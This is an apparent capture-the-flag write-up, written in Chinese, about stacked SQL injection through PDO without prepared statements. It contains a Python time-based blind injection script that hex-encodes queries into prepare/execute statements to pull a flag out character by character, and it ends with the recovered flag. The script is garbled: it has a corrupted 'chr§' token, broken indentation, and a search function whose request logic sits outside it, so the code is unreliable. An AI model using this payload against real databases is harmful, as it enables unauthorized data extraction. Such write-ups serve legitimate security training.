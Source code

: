 
# writeup

本题出现了PDO, 是使用sql函数连接数据库以外的一种数据库通信方式

但是没有使用sql预编译, 所以存在堆叠注入

通过以下脚本来获取flag [x]

```python
#coding:utf-8
import requests
import time

url = 'http://127.0.0.1/?id=1;'
flag = ''

def xx(n,i,j):
    global flag
    p=(i+j)/2
    if j-i==1:
        flag+=chr(j)
        n+=1
    return

payload="""select if(substr((select binary flag from flag),{n},1)>’{p}’,sleep(0.3),0)""".format(p=chr§,n=n)
payload="""set%20%40z=0x%s;prepare+a+from%20%40z;execute+a;"""%payload.encode('hex')

t1=time.time()
r=requests.get(url+payload).text
t2=time.time()

if t2-t1>0.3:
    xx(n,p,j)
else:
    xx(n,i,p)

for n in range(1,1000):
    xx(n,1,128)

print flag
```

`flag{87550dc4958d56e12f5d1a69070f01affb07df35a9da39adb6328facd3662193}`
